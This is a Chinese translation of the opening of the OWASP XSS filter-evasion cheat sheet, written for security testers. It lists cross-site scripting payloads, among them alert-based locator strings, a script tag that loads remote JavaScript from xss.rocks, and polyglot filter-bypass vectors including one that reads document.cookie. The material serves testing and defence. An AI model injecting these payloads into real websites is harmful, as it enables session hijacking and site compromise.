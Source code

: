 ## 1.介绍

这篇文章的主要目的是给专业安全测试人员提供一份跨站脚本漏洞检测指南。文章的初始内容是由RSnake提供给 OWASP，内容基于他的XSS备忘录:<http://ha.ckers.org/xss.html>。目前这个网页已经重定向到OWASP网站，将由OWASP维护和完善它。OWASP 的第一个防御备忘录项目：XSS (Cross Site Scripting)Prevention Cheat Sheet 灵感来源于 RSnake 的 XSS Cheat Sheet，所以我们对他给予我们的启发表示感谢。我们想要去创建短小简单的参考给开发者以便帮助他们预防 XSS漏洞，而不是简单的告诉他们需要使用复杂的方法构建应用来预防各种千奇百怪的攻击，这也是OWASP 备忘录系列诞生的原因。

## 2.测试

这份备忘录是为那些已经理解XSS攻击，但是想要了解关于绕过过滤器方法之间细微差别的人准备的。

请注意大部分的跨站脚本攻击向量已经在其代码下方给出的浏览器列表中进行测试。

### 2.1.  XSS定位器

在大多数存在漏洞且不需要特定XSS攻击代码的地方插入下列代码会弹出包含“XSS”字样的对话框。使用URL编码器来对整个代码进行编码。小技巧：如果你时间很紧想要快速检查页面，通常只要插入“<任意文本>”标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：


‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;

alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–

></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>




### 2.2.  XSS定位器（短）

如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞


”;!–”<XSS>=&{()}




### 2.3.  无过滤绕过

这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：


<SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>




### 2.4.  利用多语言进行过滤绕过


‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|><plaintext/onmouseover=prompt(1)>

<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>

<script>alert(document.cookie)</script>”>

<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
